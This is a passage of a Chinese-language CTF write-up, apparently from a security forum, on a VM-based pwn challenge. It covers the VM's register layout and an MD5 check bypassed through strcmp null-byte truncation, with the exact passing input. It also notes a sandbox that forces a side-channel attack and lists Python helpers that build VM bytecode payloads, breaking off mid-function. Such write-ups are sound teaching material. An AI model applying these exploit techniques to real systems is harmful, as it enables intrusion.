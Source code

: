 vm
==

题目分析
----

题目是常见的vm类型，**这个函数的功能就是初始化mem,a\[0\]~a\[7\]是寄存器,a\[8\]是栈，a\[11\]是栈大小,a\[12\]在后面发现是rsp,a\[10\]在后面发现是rip**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-ae1b52db1c14162e934c9305c54ef741ae96977f.png)

题目在到vmrun之前会有个check函数

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-13947553fb6adf287cd9bca17217290df370bc2f.png)

看到中间有一部分很难逆向，但是发现了magic\_number，**看出这是md5**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-d51e0aec2aef6deedd5e9e701491ae8b9cc110ae.png)

同时这个不是硬爆md5,**可以看到与magic比较是用strcmp，同时md5这里会有\\x00截断**，所以只用看截断之前的东西就可以了

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-b4b7633fe6835dfd78f6aba907d4451da6973750.png)

最终的check这样通过

```python
check=b'LOGIN:root\nadmin:h3r3_1s_y0u2_G1ft!&&An9q\nDONE&EXIT\n'
```

题目中还有个sandbox，只让使用open,read,brk,close这几个系统调用，所以得考虑**侧信道**来爆出flag

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-a8ea79b604cc3071ec6819fab86322bee2013725.png)

vmcode逆向内容如下

```python
#reg[idx]/=value
def reg_mulvalue(idx,value):
    global pay
    pay+=b'\xb8'+b'\x01'+p8(idx)+p64(value)

# reg[idx1]/=reg2[idx2]test
def div(idx1, idx2):
    global pay
    pay += b'\xb8' + b'\x00' + p8(idx1) + p8(idx2)

# stack[rsp]=value
def pushvalue(value):
    global pay
    pay += b'\xb4' + b'\x01' + p64(value)

#stack[rsp]=reg[idx]
def pushreg(idx):
    global pay
    pay+=b'\xb4'+b'\x00'+p8(idx)

#ret
def popreg(rip):
    global pay
    pay+=b'\xb2'+p8(rip)

#reg[idx]|=value
def reg_orvalue(idx,value):
    global pay
    pay+=b'\xb0'+b'\x01'+p8(idx)+p64(value)

#reg[idx1]|=reg[idx2]
def reg_orreg(idx1,idx2):
```